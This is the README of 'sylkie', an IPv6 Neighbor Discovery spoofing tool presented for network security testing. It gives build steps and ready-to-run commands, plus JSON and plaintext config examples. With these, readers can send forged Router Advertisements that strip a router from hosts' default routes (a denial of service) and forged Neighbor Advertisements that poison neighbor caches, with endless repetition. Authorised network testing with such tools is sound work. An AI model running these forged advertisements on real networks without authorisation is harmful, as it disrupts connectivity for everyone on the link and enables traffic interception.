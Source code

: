 # `sylkie` 

[![Travis Build Status](https://img.shields.io/travis/dlrobertson/sylkie/master.svg?label=master%20build)](https://travis-ci.org/dlrobertson/sylkie)

A command line tool and library for testing networks for common address
spoofing security vulnerabilities in IPv6 networks using the Neighbor
Discovery Protocol.

## Getting Started

**Note:** This project is still in the early phases of development. If you run into any problems,
please consider submitting an [issue](https://github.com/dlrobertson/sylkie/issues). It currently
only runs on Linux.

### Dependencies

 - [libseccomp](https://github.com/seccomp/libseccomp) (Optional, but highly recommended)
 - [json-c](https://github.com/json-c/json-c) (Optional, but recommended)

See [The Wiki](https://github.com/dlrobertson/sylkie/wiki#building) for more details.

### Build

Get the code and compile it!

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

## Basic usage

The following describes the basic usage of `sylkie`. Run `sylkie -h` or
`sylkie <subcommand> -h` for more details or check out
[Advanced Usage](https://github.com/dlrobertson/sylkie/wiki#advanced-usage)
for more examples.

### DoS (Router Advert)

The basic usage of the `router-advert` command is listed below. This
command will send a Router Advertisement message to the given ip or the
all nodes multicast addres causing the targeted nodes to remove
`<router-ip>/<prefix>` from their list of default routes.

```
sylkie ra -i <interface> \
    --target-mac <mac of router> \
    --router-ip <ip of router> \
    --prefix <router prefix> \
    --timeout <time between adverts> \
    --repeat <number of times to send the request>
```

#### Router Advert Examples

A basic example.

```
sylkie ra -i ens3 \
    --target-mac 52:54:00:e3:f4:06 \
    --router-ip fe80::b95b:ee1:cafe:9720 \
    --prefix 64 \
    --repeat -1 \
    --timeout 10
```

This would send a "forged" Router Advertisement to the link local scope
all-nodes address `ff02::1` causing all of the nodes to remove
`fe80::b95b:ee1:cafe:9720/64` (link-layer address `52:54:00:e3:f4:06`)
from their list of default routes.

### Address spoofing (Neighbor Advert)

The basic usage of the sylkie neighbor advert command is listed below.
This command will send a forged Neighbor Advertisement message to the
given ip.

```
sylkie na -i <interface> \
    --dst-mac <dest hw addr> \
    --src-ip <source ip> \
    --dst-ip <dest ip address> \
    --target-ip <target ip address> \
    --target-mac <target mac address> \
    --timeout <time betweeen adverts> \
    --repeat <number of times to send the request>
```

#### Neighbor Advert examples

A basic example

```
sylkie na -i ens3 \
    --dst-mac 52:54:00:e3:f4:06 \
    --src-ip fe80::61ad:fda3:3032:f6f4 \
    --dst-ip fe80::b95b:ee1:cafe:9720 \
    --target-ip fe80::61ad:fda3:3032:f6f4 \
    --target-mac 52:54:00:c2:a7:7c \
    --repeat -1 \
    --timeout 3
```

This would send a "forged" Neighbor Advertisement message to `dst-ip`
(`fe80::b95b:ee1:cafe:9720`), causing the hardware address in the neighbor
cache for the `target-ip` (`fe80::61ad:fda3:3032:f6f4`) to be updated to
the `target-mac` (`52:54:00:c2:a7:7c`).

## Saving your work

The commands above require quite a bit of info. To make life easier `sylkie`
also accepts json and plaintext files containing the necessary info to start
sending the forged advertisments.

### JSON

The subcommand (`router-advert`, `neighbor-advert`) is a key whos
value is an array of objects with the keys and values being the
corresponding option and value. To run the command, pass the
path to the json file as the argument to the `-j` option.

#### Example

To run the `router-advert` example provided above from json, first create
a file with the following.

```
{
    "router-advert": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

After creating the file, start sending adverts with the following.

```
sylkie -j /path/to/json
```

### Plaintext

Each line of the file must be exactly what you would provide via
the command line minus the `sylkie` command.

#### Example

To run the `neighbor-advert` example provided above from json, first create
a file with the following.

```
na -i ens3 --dst-mac 52:54:00:e3:f4:06 --src-ip fe80::61ad:fda3:3032:f6f4 --dst-ip fe80::b95b:ee1:cafe:9720 --target-ip fe80::61ad:fda3:3032:f6f4 --target-mac 52:54:00:c2:a7:7c --repeat -1 --timeout 3
```

After creating the file, start sending the adverts with

```
sylkie -x /path/to/file
```
